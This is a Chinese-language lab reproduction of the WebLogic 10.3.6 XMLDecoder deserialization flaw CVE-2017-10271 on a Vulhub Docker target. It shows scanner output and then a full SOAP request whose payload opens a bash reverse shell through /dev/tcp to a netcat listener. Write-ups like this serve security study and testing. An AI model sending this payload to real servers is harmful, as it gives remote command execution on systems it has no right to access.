





# Weblogic-10.3.6 'wls-wsat' XMLDecoder-unserializer-(CVE-2017-10271)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-10271                                               |
| 漏洞名称 | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271） |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 10.3.6                                                       |
| 漏洞描述 | Weblogic的WLS Security组件对外提供webservice服务<br>其中使用了XMLDecoder来解析用户传入的XML数据<br>在解析的过程中出现反序列化漏洞，导致可执行任意命令 |
| 修复方案 | 打补丁<br >上设备<br>升级组件                                |


### 1.1、漏洞描述

WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令

### 1.2、漏洞等级

高危

### 1.3、影响版本

  10.3.6

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

启动测试环境：

```bash
sudo docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

`Weblogic`的登陆地址是`your-ip:7001/console`



#### 2、漏洞扫描

#### nacs

查看帮助信息

```bash
./nacs -h 
```



```bash
┌──(kali㉿kali)-[~/tools/nacs/0.0.3]
└─$ sudo ./nacs -h 192.168.80.141 -pa 7001
 _  _     ___     ___     ___   
| \| |   /   \   / __|   / __|  
| .  |   | - |  | (__    \__ \
|_|\_|   |_|_|   \___|   |___/  
             Version: 0.0.3
[05:55:53] [INFO] Start to probe alive machines
[05:55:53] [*] Target 192.168.80.141 is alive
[05:55:53] [INFO] There are total of 1 hosts, and 1 are surviving
[05:55:53] [WARNING] Too few surviving hosts
[05:55:53] [INFO] Start to discover the ports
[05:55:53] [*] [TCP/SSH] ssh://192.168.80.141:22 [SSH-2.0-OpenSSH_9.2p1\x20Debian-2]
[05:55:59] [*] [TCP/HTTP] [404] [JSP] [Servlet] [Weblogic] http://192.168.80.141:7001 [None]
[05:55:59] [INFO] A total of 2 targets, the rule base hits 2 targets
[05:55:59] [INFO] Start to send pocs to web services (xray type)
[05:55:59] [INFO] Load 397 xray poc(s) 
[05:56:01] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2019-2729-2 
[05:56:02] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2019-2725 v10
[05:56:12] [+] http://192.168.80.141:7001 poc-yaml-weblogic-cve-2017-10271 reverse
[05:57:01] [INFO] Start to process nonweb services
[05:57:01] [INFO] [protocol] ssh 192.168.80.141
[05:59:29] [INFO] Task finish, consumption of time: 3m35.385936144s                                                                      
```


#### weblogicScanner

项目地址：https://github.com/0xn0ne/weblogicScanner

```bash
┌──(kali㉿kali)-[~/tools/weblogic/weblogicScanner]
└─$ python ws.py -t 192.168.80.141                                     
[06:02:31][INFO] [-][CVE-2018-2894][192.168.80.141:7001] Not found.
[06:02:33][INFO] [+][CVE-2017-10271][192.168.80.141:7001] Exists vulnerability!
[06:02:33][INFO] [+][CVE-2014-4210][192.168.80.141:7001] Found module, Please verify manually!
[06:02:38][INFO] [-][CVE-2019-2890][192.168.80.141:7001] Not vulnerability.
[06:02:39][INFO] [-][CVE-2016-0638][192.168.80.141:7001] Not vulnerability.
[06:02:39][INFO] [!][CVE-2018-3245][192.168.80.141:7001] Connection error.
[06:02:39][INFO] [-][CVE-2018-3245][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2018-3191][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2020-2883][192.168.80.141:7001] Not vulnerability.
[06:02:40][INFO] [-][CVE-2020-2555][192.168.80.141:7001] Not vulnerability.
[06:02:42][INFO] [+][CVE-2020-2551][192.168.80.141:7001] Found module, Please verify manually!
[06:02:42][INFO] [+][CVE-2019-2618][192.168.80.141:7001] Found module, Please verify manually!
[06:02:43][INFO] [+][CVE-2019-2725][192.168.80.141:7001] Exists vulnerability!
[06:02:43][INFO] [+][CVE-2018-3252][192.168.80.141:7001] Found module, Please verify manually!
[06:02:43][INFO] [+][CVE-2020-14750][192.168.80.141:7001] Exists vulnerability!
[06:02:43][INFO] [+][CVE-2019-2888][192.168.80.141:7001] Found module, Please verify manually!
[06:02:44][INFO] [!][CVE-2020-14882][192.168.80.141:7001] Connection error.
[06:02:44][INFO] [-][CVE-2020-14882][192.168.80.141:7001] Not vulnerability.
[06:02:44][INFO] [+][CVE-2019-2729][192.168.80.141:7001] Exists vulnerability!
[06:02:45][INFO] [+][CVE-2018-2893][192.168.80.141:7001] Exists vulnerability!
[06:02:45][INFO] [+][CVE-2017-3506][192.168.80.141:7001] Exists vulnerability!
[06:02:46][INFO] [+][CVE-2016-3510][192.168.80.141:7001] Exists vulnerability!
[06:02:47][INFO] [+][CVE-2017-3248][192.168.80.141:7001] Exists vulnerability!
[06:02:48][INFO] [-][CVE-2018-2628][192.168.80.141:7001] Not vulnerability.
[06:02:52][INFO] [-][Weblogic Console][192.168.80.141:7001] Not found.
[06:02:52][INFO] [-][CVE-2020-14883][192.168.80.141:7001] Not vulnerability.
Run completed, 27 seconds total.

```

#### 3、漏洞验证

访问`/wls-wsat/CoordinatorPortType`页面



改变请求方式为`post`



kali监听`21`端口

```bash
nc -lvp 21
```


发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.80.141:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ADMINCONSOLESESSION=vq4hk23V21rs9yG5nGTvYkGppFGmFrvzzM2tvtw2pSnKQCsjPmvt!-1799840789
Connection: close
Content-Type: text/xml
Content-Length: 641

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.80.141/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

```

成功获取shell



